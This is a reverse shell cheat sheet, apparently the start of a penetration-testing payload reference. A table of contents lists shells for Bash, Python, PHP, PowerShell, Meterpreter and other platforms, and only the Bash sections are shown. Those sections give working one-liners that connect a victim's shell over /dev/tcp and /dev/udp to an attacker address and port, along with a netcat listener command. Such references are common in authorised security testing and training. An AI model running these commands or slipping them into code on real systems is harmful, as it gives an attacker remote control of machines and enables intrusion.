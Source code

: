 # Reverse Shell Cheat Sheet

## Summary

* [Reverse Shell](#reverse-shell)
    * [Bash TCP](#bash-tcp)
    * [Bash UDP](#bash-udp)
    * [Socat](#socat)
    * [Perl](#perl)
    * [Python](#python)
    * [PHP](#php)
    * [Ruby](#ruby)
    * [Golang](#golang)
    * [Netcat Traditional](#netcat-traditional)
    * [Netcat OpenBsd](#netcat-openbsd)
    * [Ncat](#ncat)
    * [OpenSSL](#openssl)
    * [Powershell](#powershell)
    * [Awk](#awk)
    * [Java](#java)
    * [War](#war)
    * [Lua](#lua)
    * [NodeJS](#nodejs)
    * [Groovy](#groovy)
* [Meterpreter Shell](#meterpreter-shell)
    * [Windows Staged reverse TCP](#windows-staged-reverse-tcp)
    * [Windows Stageless reverse TCP](#windows-stageless-reverse-tcp)
    * [Linux Staged reverse TCP](#linux-staged-reverse-tcp)
    * [Linux Stageless reverse TCP](#linux-stageless-reverse-tcp)
    * [Other platforms](#other-platforms)
* [Spawn TTY Shell](#spawn-tty-shell)
* [References](#references)

## Reverse Shell

### Bash TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

### Bash UDP

```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```
